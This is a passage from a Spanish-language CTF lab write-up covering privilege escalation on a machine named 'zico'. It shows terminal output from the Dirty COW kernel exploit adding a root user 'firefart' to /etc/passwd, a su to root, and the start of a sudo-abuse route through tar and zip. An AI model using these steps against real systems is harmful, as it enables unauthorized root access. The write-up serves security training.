 ```
❯ ssh zico@192.168.0.105
```

----

## Escalada de privilegios

Kernel exploit

[https://www.exploit-db.com/exploits/40839](https://www.exploit-db.com/exploits/40839)

```
zico@zico:~/test$ ./dirty                                              
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:                   
firefart:fiKBbJoc.sTuE:0:0:pwned:/root:/bin/bash
                                 
mmap: 7fcccc5e2000        
                                 
madvise 0                                                          
                                                                   
whoami                                                             
ptrace 0                                                           
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'test123'.
                                                                   
                                 
DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'test123'.
```

```
zico@zico:~/test$ cat /etc/passwd
firefart:fiKBbJoc.sTuE:0:0:pwned:/root:/bin/bash
/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
[...]
statd:x:105:65534::/var/lib/nfs:/bin/false
mysql:x:106:112:MySQL Server,,,:/nonexistent:/bin/false
zico:x:1000:1000:,,,:/home/zico:/bin/bash
zico@zico:~/test$ su firefart
Password: 
firefart@zico:/home/zico/test# whoami
firefart
firefart@zico:/home/zico/test# id
uid=0(firefart) gid=0(root) groups=0(root)
```

Forma 2:

Abusando del permiso **sudo**

```
> sudo -l
zico ALL=(root) NOPASSWD: /bin/tar
zico ALL=(root) NOPASSWD: /usr/bin/zip
```

